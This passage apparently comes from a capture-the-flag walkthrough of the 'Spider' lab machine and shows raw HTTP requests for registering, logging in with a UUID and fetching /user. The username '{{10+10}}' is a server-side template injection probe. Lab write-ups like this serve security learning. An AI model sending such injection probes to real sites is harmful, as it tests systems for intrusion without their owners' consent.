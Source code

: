 ```bash
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://spider.htb/register
Connection: close
Cookie: session=
Upgrade-Insecure-Requests: 1
```
Let's follow the redirection.
We redirect to the login page with the uuid now enter the password and login.
```bash
POST /login HTTP/1.1
Host: spider.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: http://spider.htb
Connection: close
Referer: http://spider.htb/login?uuid=ff5af298-10c6-4177-9b5e-7761a4f0dc24
Cookie: session=
Upgrade-Insecure-Requests: 1


username=ff5af298-10c6-4177-9b5e-7761a4f0dc24&password=test
```
After that we are logged in as {{10+10}} now let's go to /user endpoint.
```bash
GET /user HTTP/1.1
Host: spider.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://spider.htb/
Cookie: session=eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6ImZmNWFmMjk4LTEwYzYtNDE3Ny05YjVlLTc3NjFhNGYwZGMyNCJ9.YLSbeQ.GF_3hBHx9_OzuyT4qhVC-kMC8HU
Upgrade-Insecure-Requests: 
```
Now let's see the response to this request
```html
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 31 May 2021 08:18:41 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Content-Length: 1776


<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link rel="stylesheet" href="/static/semantic-ui/semantic.min.css" />
    <link rel="stylesheet" href="/static/css/core-style.css" />
    <title></title>
  </head>
  <body>
    

```